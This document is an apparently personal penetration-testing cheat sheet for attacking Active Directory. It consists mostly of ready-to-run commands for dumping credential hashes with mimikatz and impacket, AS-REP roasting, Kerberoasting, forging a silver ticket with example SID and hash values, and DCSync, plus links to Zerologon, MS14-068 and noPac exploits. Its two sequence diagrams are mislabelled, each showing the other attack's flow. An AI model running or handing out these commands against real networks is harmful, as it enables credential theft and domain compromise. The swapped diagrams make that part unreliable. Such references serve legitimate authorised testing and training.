 # ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## AS-REP Roasting

```mermaid
sequenceDiagram
    participant Attacker
    participant Victim User
    participant Domain Controller (KDC)
    participant Service Account

    Attacker->>Victim User: Compromises user account
    Victim User->>Domain Controller (KDC): Requests TGT (AS-REQ)
    Domain Controller (KDC)-->>Victim User: Returns TGT (AS-REP)
    Victim User->>Domain Controller (KDC): Requests Service Ticket (TGS-REQ)
    Domain Controller (KDC)-->>Victim User: Returns Service Ticket (TGS-REP)
    Victim User->>Service Account: Accesses service with Service Ticket
    Attacker->>Victim User: Extracts Service Ticket
    Attacker->>Attacker: Cracks Service Ticket offline
```

> Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers -dc-ip <ip> -request <domain>/<user>:<password>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

```mermaid
sequenceDiagram
    participant Attacker
    participant Domain Controller (KDC)
    participant Target User (No Preauth)

    Attacker->>Domain Controller (KDC): Sends AS-REQ for Target User (No Preauth)
    Domain Controller (KDC)-->>Attacker: Returns AS-REP with encrypted TGT
    Attacker->>Attacker: Extracts and cracks AS-REP offline
```

!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket

```mermaid
sequenceDiagram
    participant Attacker
    participant Target Service
    participant Domain Controller (KDC)

    Attacker->>Attacker: Extracts NTLM hash of Service Account
    Attacker->>Attacker: Creates forged TGS (Silver Ticket)
    Attacker->>Target Service: Sends forged TGS to access service
    Target Service-->>Attacker: Grants unauthorized access
```

Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>

# linux
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
